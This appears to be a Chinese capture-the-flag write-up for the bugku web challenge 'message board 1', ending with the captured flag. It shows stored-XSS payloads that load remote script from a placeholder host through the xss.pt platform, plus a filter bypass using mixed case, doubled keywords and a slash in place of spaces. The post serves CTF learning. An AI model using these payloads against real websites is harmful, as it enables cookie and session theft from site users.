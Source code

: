 ```yaml
---
title: bugku_WEB 留言板1
date: 2023-01-01 18:00 +0800
categories: [CTF,WEB]
tags: [WEB]
img_path: /assets/images/1.assets
---
```


在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条

```html
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有大小写+双写可以过滤srcipt，空格使用反斜杠进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}